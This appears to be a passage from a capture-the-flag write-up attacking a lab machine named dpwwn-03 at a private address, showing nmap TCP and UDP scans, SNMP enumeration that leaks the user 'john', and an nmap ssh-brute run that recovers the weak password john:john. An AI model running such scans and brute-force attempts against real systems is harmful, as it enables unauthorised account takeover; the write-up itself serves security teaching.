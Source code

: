 
And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan -Pn 192.168.56.110
...SNIPPED...
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
161/tcp closed snmp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...SNIPPED...
```
Then I identify 1 open port, and it is the `OpenSSH 7.9p1` service that runs on `22` TCP, and it runs on `Debian 10`.

When I scan the `UDP` ports with the `nmap` command:
```shell
$ nmap -p- -sU -oA scans/nmap-full-udp-scan -Pn 192.168.56.110
...SNIPPED...
PORT    STATE  SERVICE
22/udp  closed ssh
161/udp open   snmp
MAC Address: 00:0C:29:A2:A1:A0 (VMware)
...SNIPPED...
```
Then I identify 1 open port, and it is the `SNMP` service that runs on `161` UDP


## Normal use case
Given I can access `SSH` with `192.168.56.110:22`, but I do not have any credentials, then I can do anything in a normal case.

## Dynamic detection
Leak user with `SNMP` and weak password for `ssh` session.

Given I can access `SNMP` on UDP `161` with `192.168.56.110`, then I can enumerate the `SNMP` service.
When I use the `snmp-check` command:
```shell
$ snmp-check 192.168.56.110
...SNIPPED...
Host IP address : 192.168.56.110
Hostname        : dpwwn-03
Description     : Linux dpwwn-03 4.19.0-5-686-pae #1 SMP
Contact         : john <john@dpwwn-03>
Location        : john room
...SNIPPED...
```

## Exploitation

Then I can identify the user `john`, and since there are no more open ports, then I try to brute-force the `ssh` password of the user `john`. When I use the `nmap` command with the `ssh-brute` script., and I store the name `john` in the file `username`:
```shell
$ nmap -p22 --script ssh-brute --script-args
> unpwdb.timelimit=7h,userdb=username 192.168.56.110 -Pn

...SNIPPED...
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     john:john - Valid credentials
|_  Statistics: Performed 5 guesses in 2 seconds, average tps: 2.5
...SNIPPED...
```
